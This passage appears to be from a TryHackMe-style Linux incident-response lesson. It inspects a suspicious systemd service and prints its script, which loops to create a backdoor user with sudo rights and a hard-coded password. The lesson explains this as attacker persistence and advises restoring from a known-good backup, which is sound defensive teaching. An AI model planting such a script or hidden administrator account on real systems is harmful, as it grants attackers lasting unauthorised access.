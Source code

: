 Now that we have identified a suspicious service, we can use `systemctl` to query the service's status, metadata, and other configurations to understand better what the service is doing.

To query the service's status, we can use the following command:

### Viewing the Backdoor Service

```shell-session
sudo systemctl status b4ckd00rftw.service
b4ckd00rftw.service - Backdoor Service
     Loaded: loaded (/etc/systemd/system/b4ckd00rftw.service; enabled; vendor preset: enabled)
     Active: active (running) since Wed 2024-03-13 18:38:06 UTC; 1h 20min ago
   Main PID: 596 (b4ckd00rftw.sh)
      Tasks: 2 (limit: 1126)
     Memory: 6.4M
     CGroup: /system.slice/b4ckd00rftw.service
             ├─ 596 /bin/bash /usr/local/bin/b4ckd00rftw.sh
             ├─4067 sleep 60
```

In the above output, we gain a lot of details about the b4ckd00rftw service. Notably, we can see that it is in the Active and Running state, as well as the timestamp for when the service started previously.

The command has also returned the Main PID value, which identifies the main process of this service and its associated executable (b4ckd00rftw.sh). Moving further, we gain valuable information with the CGroup (Control Group) field, which returns two processes spawned from this service.

The first process reveals the absolute path of the service executable script (`/usr/local/bin/b4ckd00rftw.sh`), and the second process reveals that it continually runs every 60 seconds (`sleep 60`).

Now that we know the binary that is executed when this service starts, we can perform further investigation on the script's contents:

### Viewing the Executable Associated with the Backdoor Service

```shell-session
investigator@tryhackme:~$ cat /usr/local/bin/b4ckd00rftw.sh
#!/bin/bash

while true; do
    sudo useradd -m -p $(openssl passwd -1 Password123!) b4ckd00rftw
    sudo usermod -aG sudo b4ckd00rftw
    sleep 60
done
```

By dissecting the commands within this script, we can determine that it creates a new user with sudo privileges named b4ckd00rftw and then sleeps for 60 seconds before repeating the process indefinitely.

Judging by the contents of this script, it is clear that this is another persistence mechanism that the attacker who compromised this system configured to maintain unauthorised access to the system even if initial response actions (like removing the backdoor user) are performed. This type of persistence is why it's important to perform thorough analysis and restore systems from a known-good backup instead of attempting to remediate on a live system, which may not fully address the extent of the compromise.
